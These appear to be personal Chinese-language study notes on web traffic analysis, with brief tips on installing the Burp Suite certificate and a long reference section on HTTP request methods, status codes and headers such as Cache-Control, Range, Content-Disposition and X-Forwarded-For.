










# MY NOTE

# Tips

杂乱小技巧

### burpsuit证书


找到这个


选择第一个以.der结尾


安装证书


当前用户


选第二个


然后重新打开bp浏览器就行

# 7.16

学习文章

```
https://blog.csdn.net/Hardworking666/article/details/123833192
```

# 流量分析

### 报文分析


```
① 是请求方法，GET 和 POST 是最常见的 HTTP 方法，除此以外还包括 DELETE、HEAD、OPTIONS、PUT、TRACE。不过，当前的大多数浏览器只支持 GET 和 POST，Spring 3.0 提供了一个 HiddenHttpMethodFilter ，允许你通过“_method”的表单参数指定这些特殊的 HTTP 方法（实际上还是通过 POST 提交表单）。服务端配置了 HiddenHttpMethodFilter 后，Spring 会根据 _method 参数指定的值模拟出相应的 HTTP 方法，这样，就可以使用这些 HTTP 方法对处理方法进行映射了。
② 为请求对应的 URL 地址，它和报文头的 Host 属性组成完整的请求 URL，
③ 是协议名称及版本号。
④ 是 HTTP 的报文头，报文头包含若干个属性，格式为“属性名:属性值”，服务端据此获取客户端的信息。
⑤ 是报文体，它将一个页面表单中的组件值通过 param1=value1&param2=value2 的键值对形式编码成一个格式化串，它承载多个请求参数的数据。不但报文体可以传递请求参数，请求 URL 也可以通过类似于“/chapter15/user.html? param1=value1&param2=value2”的方式传递请求参数。
```


**常见状态码**

```
200 OK 处理成功！
302跳转
303 See Other 我把你 redirect 到其它的页面，目标的 URL 通过响应报文头的 Location 告诉你。
304 Not Modified 告诉客户端，你请求的这个资源至你上次取得后，并没有更改，你直接用你本地的缓存吧，我很忙哦，你能不能少来烦我啊！
403无权限访问
404 Not Found 你最不希望看到的，即找不到页面。如你在 google 上找到一个页面，点击这个链接返回 404，表示这个页面已经被网站删除了。
500 Internal Server Error 看到这个错误，你就应该查查服务端的日志了，肯定抛出了一堆异常。
```

### 请求方法

根据 HTTP 标准，HTTP 请求可以使用多种请求方法。

HTTP1.0 定义了三种请求方法： GET, POST 和 HEAD 方法。

HTTP1.1 新增了六种请求方法：OPTIONS、PUT、PATCH、DELETE、TRACE 和 CONNECT 方法。

```
GET : 请求指定的页面信息，并返回实体主体。
HEAD : 类似于 GET 请求，只不过返回的响应中没有具体的内容，用于获取报头
POST : 向指定资源提交数据进行处理请求（例如提交表单或者上传文件）。数据被包含在请求体中。POST 请求可能会导致新的资源的建立和/或已有资源的修改。
PUT : 从客户端向服务器传送的数据取代指定的文档的内容。
DELETE : 请求服务器删除指定的页面。
CONNECT : HTTP/1.1 协议中预留给能够将连接改为管道方式的代理服务器。
OPTIONS : 允许客户端查看服务器的性能。
TRACE : 回显服务器收到的请求，主要用于测试或诊断。
PATCH : 是对 PUT 方法的补充，用来对已知资源进行局部更新 。
```

#### HTTP headers

通常 HTTP 消息包括客户机向服务器的请求消息和服务器向客户机的响应消息。这两种类型的消息由一个起始行，一个或者多个头域，一个只是头域结束的空行和可选的消息体组成。HTTP 的头域包括通用头，请求头，响应头和实体头四个部分。每个头域由一个域名，冒号（:）和域值三部分组成。域名是大小写无关的，域值前可以添加任何数量的空格符，头域可以被扩展为多行，在每行开始处，使用至少一个空格或制表符。

#### 通用头域

通用头域包含请求和响应消息都支持的头域，通用头域包含 Cache-Control、 Connection、Date、Pragma、Transfer-Encoding、Upgrade、Via。对通用头域的扩展要求通讯双方都支持此扩展，如果存在不支持的通用头域，一般将会作为实体头域处理。下面简单介绍几个在 UPnP 消息中使用的通用头域。

##### Cache-Control 头域

Cache -Control 指定请求和响应遵循的缓存机制。在请求消息或响应消息中设置 Cache-Control 并不会修改另一个消息处理过程中的缓存处理过程。（cache高度缓存器）

请求时的缓存指令包括 no-cache、no-store、max-age、 max-stale、min-fresh、only-if-cached

响应消息中的指令包括

```
Public 指示响应可被任何缓存区缓存；
Private 指示对于单个用户的整个或部分响应消息，不能被共享缓存处理。这允许服务器仅仅描述当用户的部分响应消息，此响应消息对于其他用户的请求无效；
no-cache 指示请求或响应消息不能缓存；
no-store 用于防止重要的信息被无意的发布。在请求消息中发送将使得请求和响应消息都不使用缓存；
max-age 指示客户机可以接收生存期不大于指定时间（以秒为单位）的响应；
min-fresh 指示客户机可以接收响应时间小于当前时间加上指定时间的响应；
max-stale 指示客户机可以接收超出超时期间的响应消息。如果指定 max-stale 消息的值，那么客户机可以接收超出超时期指定值之内的响应消息。
```

##### Date 头域

date 头域表示消息发送的时间，时间的描述格式由 rfc822 定义。例如，Date:Mon,31Dec200104:25:57GMT。Date 描述的时间表示世界标准时，换算成本地时间，需要知道用户所在的时区。

##### Pragma 头域

Pragma 头域用来包含实现特定的指令，最常用的是 Pragma:no-cache。在 HTTP/1.1 协议中，它的含义和 Cache-Control:no-cache 相同。

##### Connection 头域

**Connection 表示连接状态**

请求
close（告诉 WEB 服务器或者代理服务器，在完成本次请求的响应后，断开连接，不要等待本次连接的后续请求了）。
keepalive（告诉 WEB 服务器或者代理服务器，在完成本次请求的响应后，保持连接，等待本次连接的后续请求）。
响应

close（连接已经关闭）。
Keep-Alive：如果浏览器请求保持连接，则该头部表明希望 WEB 服务器保持连接多长时间（秒）。例如：Keep-Alive：300

请求消息(请求头)
请求消息的第一行为下面的格式：Method Request-URI HTTP-Version

Method 表示对于 Request-URI 完成的方法，这个字段是大小写敏感的，包括 OPTIONS、GET、HEAD、POST、PUT、DELETE、TRACE。方法 GET 和 HEAD 应该被所有的通用 WEB 服务器支持，其他所有方法的实现是可选的，GET 方法取回由 Request-URI 标识的信息，
**HEAD 方法**也是取回由 Request-URI 标识的信息，只是可以在响应时，不返回消息体；
**POST 方法**可以请求服务器接收包含在请求中的实体信息，可以用于提交表单，向新闻组、BBS、邮件群组和数据库发送消息。
**Request-URI** 表示请求的URL。Request-URI 遵循 URI 格式，在此字段为星号（*）时，说明请求并不用于某个特定的资源地址，而是用于服务器本身。
**HTTP- Version** 表示支持的 HTTP 版本，例如为 HTTP/1.1。
请求头域允许客户端向服务器传递关于请求或者关于客户机的附加信息。请求头域可能包含下列字段 Accept、Accept-Charset、Accept-Encoding、Accept-Language、Authorization、From、Host、If-Modified-Since、If-Match、If-None-Match、If-Range、If-Unmodified-Since、Max-Forwards、 Proxy-Authorization、Range、Referer、User-Agent。对请求头域的扩展要求通讯双方都支持，如果存在不支持的请求头域,一般将会作为实体头域处理。

典型的请求消息

```
GET http://download.microtool.de:80/somedata.exe get请求 请求后面的网址
Host: download.microtool.de 请求的目标域名或网站
Accept:*/* 表示自己接受什么介质类型 这里/表示任何类型
Pragma: no-cache 无缓存
Cache-Control: no-cache 无缓存 
Referer: http://download.microtool.de/ 来源ip
User-Agent:Mozilla/4.04[en](Win95;I;Nav) 用户代理，也就是浏览器
Range:bytes=554554-制定客户端希望请求的资源范围
```

```
上例第一行表示 HTTP 客户端（可能是浏览器、下载程序）通过 GET 方法获得指定 URL 下的文件。

Host头域指定请求资源的 Intenet 主机和端口号，必须表示请求 url 的原始服务器或网关的位置。HTTP/1.1 请求必须包含主机头域，否则系统会以 400 状态码返回；
Accept：告诉 WEB 服务器自己接受什么介质类型，/ 表示任何类型，type/* 表示该类型下的所有子类型，type/sub-type。
Accept-Charset： 浏览器申明自己接收的字符集。
Authorization：当客户端接收到来自WEB服务器的 WWW-Authenticate 响应时，用该头部来回应自己的身份验证信息给 WEB 服务器。
```

**Range**

```
表示头500个字节：bytes=0-499
表示第二个500字节：bytes=500-999
表示最后500个字节：bytes=-500
表示500字节以后的范围：bytes=500-
第一个和最后一个字节：bytes=0-0,-1
同时指定几个范围：bytes=500-600,601-999
```

但是服务器可以忽略此请求头，如果无条件 GET 包含 Range 请求头，响应会以状态码 206（PartialContent）返回而不是以 200 （OK）

### 响应消息(响应头)

响应信息如内容类型，类型的长度，服务器信息，设置 Cookie

响应消息的第一行为下面的格式：HTTP-Version Status-Code Reason-Phrase

HTTP -Version 表示支持的 HTTP 版本，例如为 HTTP/1.1。
Status-Code 是一个三个数字的结果代码。
Status-Code 主要用于机器自动识别，Reason-Phrase 主要用于帮助用户理解。Status-Code 的第一个数字定义响应的类别，后两个数字没有分类的作用。第一个数字可能取5个不同的值

```
1xx : 信息响应类，表示接收到请求并且继续处理
2xx : 处理成功响应类，表示动作被成功接收、理解和接受
3xx : 重定向响应类，为了完成指定的动作，必须接受进一步处理
4xx : 客户端错误，客户请求包含语法错误或者是不能正确执行
5xx : 服务端错误，服务器不能正确执行一个正确的请求
```

Reason-Phrase 给 Status-Code 提供一个简单的文本描述。
响应头域允许服务器传递不能放在状态行的附加信息，这些域主要描述服务器的信息和 Request-URI 进一步的信息。响应头域包含 Age、Location、Proxy-Authenticate、Public、Retry-After、Server、Vary、Warning、WWW-Authenticate。对响应头域的扩展要求通讯双方都支持，如果存在不支持的响应头 域，一般将会作为实体头域处理。

典型的响应消息：

```
HTTP/1.0 200 OK 请求结果
Date:Mon,31Dec200104:25:57MGT 响应时间
Server:Apache/1.3.14(Unix) 请求到的服务
Content-type:text/html 返回实体类型
Last-modified:Tue,17Apr200106:46:28GMT  资源最后修改时间
Etag:"a030f020ac7c01:1e9f" 表示网络资源版本
Content-length:39725426 实际传送回来的字节数
Content-range:bytes554554-40279979/40279980 实际传送范围
content-encoding 文档的编码方法
```

Location 响应头用于重定向接收者到一个新 URI 地址。Server 响应头包含处理请求的原始服务器的软件信息。此域能包含多个产品标识和注释，产品标识一般按照重要性排序

实体消息(实体头和实体)
请求消息和响应消息都可以包含实体信息，实体信息一般由实体头域和实体组成。

实体头域包含关于实体的原信息，实体头包括 Allow、Content-Base、Content-Encoding、Content-Language、Content-Length、Content-Location、Content-MD5、Content-Range、Content-Type、Etag、Expires、Last-Modified、extension-header。extension-header 允许客户端定义新的实体头，但是这些域可能无法为接受方识别。

Content-Type 实体头用于向接收方指示实体的介质类型，指定 HEAD 方法送到接收方的实体介质类型，或 GET 方法发送的请求介质类型，表示后面的文档属于什么 MIME 类型。
Content-Length 表示实际传送的字节数。
Allow 实体头至服务器支持哪些请求方法（如 GET、POST 等）。
Content-Range 表示传送的范围，用于指定整个实体中的一部分的插入位置，他也指示了整个实体的长度。在服务器向客户返回一个部分响应，它必须描述响应覆盖的范围和整个实体长度。
一般格式：Content-Range:bytes-unitSPfirst-byte-pos-last-byte-pos/entity-legth

例如，传送头500个字节次字段的形式：Content-Range:bytes0-499/1234 如果一个 http 消息包含此节（例如，对范围请求的响应或对一系列范围的重叠请求）。
Content-Encoding 指文档的编码（Encode）方法。实体可以是一个经过编码的字节流，它的编码方式由 Content-Encoding 或 Content-Type 定义，它的长度由 Content-Length 或 Content-Range 定义。

##### X-Forwarded-For

通过名字就知道，X-Forwarded-For 是一个 HTTP 扩展头部。HTTP/1.1（RFC 2616）协议并没有对它的定义，它最开始是由 Squid 这个缓存代理软件引入，用来表示 HTTP 请求端真实 IP。如今它已经成为事实上的标准，被各大 HTTP 代理、负载均衡等转发服务广泛使用，并被写入 RFC 7239（Forwarded HTTP Extension）标准之中。

X-Forwarded-For 请求头格式非常简单，就这样：

X-Forwarded-For: client, proxy1, proxy2
可以看到，XFF 的内容由「英文逗号 + 空格」隔开的多个部分组成，最开始的是离服务端最远的设备 IP，然后是每一级代理设备的 IP。

如果一个 HTTP 请求到达服务器之前，经过了三个代理 Proxy1、Proxy2、Proxy3，IP 分别为 IP1、IP2、IP3，用户真实 IP 为 IP0，那么按照 XFF 标准，服务端最终会收到以下信息：

X-Forwarded-For: IP0, IP1, IP2
Proxy3 直连服务器，它会给 XFF 追加 IP2，表示它是在帮 Proxy2 转发请求。列表中并没有 IP3，IP3 可以在服务端通过 Remote Address 字段获得。我们知道 HTTP 连接基于 TCP 连接，HTTP 协议中没有 IP 的概念，Remote Address 来自 TCP 连接，表示与服务端建立 TCP 连接的设备 IP，在这个例子里就是 IP3。

Remote Address 无法伪造，因为建立 TCP 连接需要三次握手，如果伪造了源 IP，无法建立 TCP 连接，更不会有后面的 HTTP 请求。不同语言获取 Remote Address 的方式不一样，例如 php 是 $_SERVER[“REMOTE_ADDR”]，Node.js 是 req.connection.remoteAddress，但原理都一样。

实例
HTTP 请求消息头部实例

```
Host：rss.sina.com.cn 请求地址
User-Agent：Mozilla/5、0 (Windows; U; Windows NT 5、1; zh-CN; rv:1、8、1、14) Gecko/20080404 Firefox/2、0、0、14 浏览器
Accept：text/xml,application/xml,application/xhtml+xml,text/html;q=0、9,text/plain;q=0、 8,image/png,*/*;q=0、5   返回类型
Accept-Language：zh-cn,zh;q=0、5  接受语言
Accept-Encoding：gzip,deflate  申明自己的接受编码类型
Accept-Charset：gb2312,utf-8;q=0、7,*;q=0、7 申明字符集
Keep-Alive：300 保持代理
Connection：keep-alive  保持存活代理
Cookie：userId=C5bYpXrimdmsiQmsBPnE1Vn8ZQmdWSm3WRlEB3vRwTnRtW           <- Cookie
If-Modified-Since：Sun, 01 Jun 2008 12:05:30 GMT  最后一次修改时间
Cache-Control：max-age=0  缓存可以接收生存期不大于指定时间（以秒为单位）的响应；
```

HTTP 响应消息头部实例

```
Status：OK - 200                                        <- 响应状态码，表示 web 服务器处理的结果。
Date：Sun, 01 Jun 2008 12:35:47 GMT  时间
Server：Apache/2、0、61 (Unix)  服务器
Last-Modified：Sun, 01 Jun 2008 12:35:30 GMT 最后一次修改时间
Accept-Ranges：bytes  接受范围
Content-Length：18616  实际传送回来的字节数
Cache-Control：max-age=120  
Expires：Sun, 01 Jun 2008 12:37:47 GMT  
Content-Type：application/xml   返回类型
Age：2  表明该实体从产生到现在经过多长时间了
X-Cache：HIT from 236-41、D07071951、sina、com、cn      <- 反向代理服务器使用的 HTTP 头部
Via：1.0 236-41.D07071951.sina.com.cn:80 (squid/2.6.STABLE13)
Connection：close 代理关闭
```

### 头部详解

#### Accept

告诉 WEB 服务器自己接受什么介质类型，/ 表示任何类型，type/* 表示该类型下的所有子类型，type/sub-type。

##### Accept-Charset

浏览器申明自己接收的字符集

##### Accept-Encoding

浏览器申明自己接收的编码方法，通常指定压缩方法，是否支持压缩，支持什么压缩方法（gzip，deflate）

##### Accept-Language

浏览器申明自己接收的语言,语言跟字符集的区别：中文是语言，中文有多种字符集，比如 big5，gb2312，gbk 等等。

#### Age

当代理服务器用自己缓存的实体去响应请求时，用该头部表明该实体从产生到现在经过多长时间了。

#### Authorization

当客户端接收到来自 WEB 服务器的 WWW-Authenticate 响应时，用该头部来回应自己的身份验证信息给 WEB 服务器。

#### Cache-Control

请求：no-cache（不要缓存的实体，要求现在从WEB服务器去取） max-age：（只接受 Age 值小于 max-age 值，并且没有过期的对象） max-stale：（可以接受过去的对象，但是过期时间必须小于 max-stale 值）

#### min-fresh

（接受其新鲜生命期大于其当前 Age 跟 min-fresh 值之和的缓存对象）响应：public(可以用 Cached 内容回应任何用户) private（只能用缓存内容回应先前请求该内容的那个用户） no-cache（可以缓存，但是只有在跟 WEB 服务器验证了其有效后，才能返回给客户端） max-age：（本响应包含的对象的过期时间） ALL: no-store（不允许缓存）

#### Connection

请求：close（告诉 WEB 服务器或者代理服务器，在完成本次请求的响应后，断开连接，不要等待本次连接的后续请求了）。keepalive（告诉 WEB 服务器或者代理服务器，在完成本次请求的响应后，保持连接，等待本次连接的后续请求）。

#### Content-Disposition

在常规的 HTTP 应答中，Content-Disposition 响应头指示回复的内容该以何种形式展示，是以内联的形式（即网页或者页面的一部分），还是以附件的形式下载并保存到本地。在 multipart/form-data 类型的应答消息体中，Content-Disposition 消息头可以被用在 multipart 消息体的子部分中，用来给出其对应字段的相关信息。各个子部分由在 Content-Type 中定义的分隔符分隔。用在消息体自身则无实际意义。

Content-Disposition 消息头最初是在 MIME 标准中定义的，HTTP 表单及 POST 请求只用到了其所有参数的一个子集。只有 form-data 以及可选的 name 和 filename 三个参数可以应用在 HTTP 场景中。

指令

#### name

后面是一个表单字段名的字符串，每一个字段名会对应一个子部分。在同一个字段名对应多个文件的情况下（例如，带有 multiple 属性的 <input type=file> 元素），则多个子部分共用同一个字段名。如果 name 参数的值为 _charset_ ，意味着这个子部分表示的不是一个 HTML 字段，而是在未明确指定字符集信息的情况下各部分使用的默认字符集。

##### filename

后面是要传送的文件的初始名称的字符串。这个参数总是可选的，而且不能盲目使用：路径信息必须舍掉，同时要进行一定的转换以符合服务器文件系统规则。这个参数主要用来提供展示性信息。当与 Content-Disposition: attachment 一同使用的时候，它被用作"保存为"对话框中呈现给用户的默认文件名。

##### filename*

filename 和 filename* 两个参数的唯一区别在于，filename* 采用了 RFC 5987 中规定的编码方式。当 filename 和 filename* 同时出现的时候，应该优先采用 filename*，假如二者都支持的话。

作为消息主体中的消息头

在 HTTP 场景中，第一个参数或者是 inline（默认值，表示回复中的消息体会以页面的一部分或者整个页面的形式展示），或者是 attachment（意味着消息体应该被下载到本地；大多数浏览器会呈现一个“保存为”的对话框，将 filename 的值预填为下载后的文件名，假如它存在的话）。

```
Content-Disposition: inline
Content-Disposition: attachment
Content-Disposition: attachment; filename="filename.jpg"

```

作为 multipart body 中的消息头

在 HTTP 场景中。第一个参数总是固定不变的 form-data；附加的参数不区分大小写，并且拥有参数值，参数名与参数值用等号 = 连接，参数值用双引号括起来。参数之间用分号 ; 分隔。

```
Content-Disposition: form-data
Content-Disposition: form-data; name="fieldName"
Content-Disposition: form-data; name="fieldName"; filename="filename.jpg"
Content-Encoding
```

WEB 服务器表明自己使用了什么压缩方法（gzip，deflate）压缩响应中的对象。例如：Content-Encoding：gzip

#### Content-Language

WEB 服务器告诉浏览器自己响应的对象的语言。

#### Content-Length

WEB 服务器告诉浏览器自己响应的对象的长度。例如：Content-Length: 26012

#### Content-Range

WEB 服务器表明该响应包含的部分对象为整个对象的哪个部分。例如：Content-Range: bytes 21010-47021/47022

#### Content-Type

WEB 服务器告诉浏览器自己响应的对象的类型。例如：Content-Type：application/xml

#### ETag

就是一个对象（比如 URL）的标志值，就一个对象而言，比如一个 html 文件，如果被修改了，其 Etag 也会别修改，所以 ETag 的作用跟 Last-Modified 的作用差不多，主要供 WEB 服务器判断一个对象是否改变了。比如前一次请求某个 html 文件时，获得了其 ETag，当这次又请求这个文件时，浏览器就会把先前获得的 ETag 值发送给WEB 服务器，然后 WEB 服务器会把这个 ETag 跟该文件的当前 ETag 进行对比，然后就知道这个文件有没有改变了。

#### Expired

WEB 服务器表明该实体将在什么时候过期，对于过期了的对象，只有在跟 WEB 服务器验证了其有效性后，才能用来响应客户请求。是 HTTP/1.0 的头部。例如：Expires：Sat, 23 May 2009 10:02:12 GMT

#### Host

客户端指定自己想访问的WEB服务器的域名/IP 地址和端口号。例如：Host：rss.sina.com.cn

#### If-Match

如果对象的 ETag 没有改变，其实也就意味著对象没有改变，才执行请求的动作。

#### If-None-Match

如果对象的 ETag 改变了，其实也就意味著对象也改变了，才执行请求的动作。

#### If-Modified-Since

如果请求的对象在该头部指定的时间之后修改了，才执行请求的动作（比如返回对象），否则返回代码304，告诉浏览器该对象没有修改。例如：If-Modified-Since：Thu,10 Apr 2008 09:14:42 GMT

#### If-Unmodified-Since

如果请求的对象在该头部指定的时间之后没修改过，才执行请求的动作（比如返回对象）

#### If-Range

浏览器告诉 WEB 服务器，如果我请求的对象没有改变，就把我缺少的部分给我，如果对象改变了，就把整个对象给我。浏览器通过发送请求对象的 ETag 或者自己所知道的最后修改时间给 WEB 服务器，让其判断对象是否改变了。总是跟 Range 头部一起使用。

#### Last-Modified

WEB 服务器认为对象的最后修改时间，比如文件的最后修改时间，动态页面的最后产生时间等等。例如：Last-Modified：Tue, 06 May 2008 02:42:43 GMT

#### Location

WEB 服务器告诉浏览器，试图访问的对象已经被移到别的位置了，到该头部指定的位置去取。例如：Location http://i0.sinaimg.cn/dy/deco/2008/0528/sina0.gif Location 通常不是直接设置的，而是通过 HttpServletResponse 的 sendRedirect 方法，该方法同时设置状态代码为 302。

#### Pramga

主要使用 Pramga: no-cache，相当于 Cache-Control： no-cache。例如：Pragma：no-cache

#### Proxy-Authenticate

代理服务器响应浏览器，要求其提供代理身份验证信息。

